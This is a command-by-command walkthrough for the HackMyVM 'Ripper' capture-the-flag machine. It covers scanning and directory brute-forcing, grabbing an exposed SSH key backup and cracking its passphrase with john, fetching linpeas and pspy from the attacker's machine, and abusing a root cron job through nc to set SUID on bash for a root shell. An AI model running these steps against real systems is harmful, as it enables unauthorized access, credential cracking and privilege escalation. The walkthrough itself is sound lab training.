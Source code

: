 ### Write up for https://hackmyvm.eu/machines/machine.php?vm=Ripper ###

nmap -v -T4 -p- -sC -sV -oN nmap.log $ip  

firefox $ip
//nothing special found on the website/source code etc

nikto -h $ip

//nothing special found

feroxbuster -n -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://$ip -x php,txt,html,zip,bak,htm,cgi -t 100
//nothing special 

findings
staff_statements.txt
firefox $ip/staff_statements.txt

The site is not yet repaired. Technicians are working on it by connecting with old ssh connection files.

old ssh ? maybe id_rsa.bak

wget $ip/id_rsa.bak
chmod 600 id_rsa.bak 

ssh jack@$ip -i id_rsa.bak "jack can be found from the virtual machine"
we need the password for that id

/usr/share/john/ssh2john.py id_rsa.bak > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

password : b******s

checking for sudo -l but command not found

its linpeas time

//on new terminal 
cd ~Downloads

python3 -m http.server 80

//on the terminal that we are loged in as jack
wget {ourip}/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh

findings : 
user helder
cat /etc/***/opasswd 
password for jack 

//lets try jacks pass for user helder

su helder

//we are in

cd

cat user.txt ( user flag)

//we got user flag lets try to get root flag

//another linpeas but nothing
//lets try pspy64

wget {our ip}/pspy64
chmod +x pspy64
./pspy64

//findings
 /bin/sh -c nc -vv -q 1 localhost 10000 > /root/.local/out && if [ "$(cat /root/.local/helder.txt)" = "$(cat /home/helder/passwd.txt)" ] ; then chmod +s "/usr/bin/$(cat /root/.local/out)" ; fi 

echo "bash" > root
nc -lnvp 10000 < root
ls -la /usr/bin/bash

bash -p

id

// uid=1001(helder) gid=1001(helder) euid=0(root) egid=0(root) groups=0(root),1001(helder)
cd /root
cat root.txt (root flag)
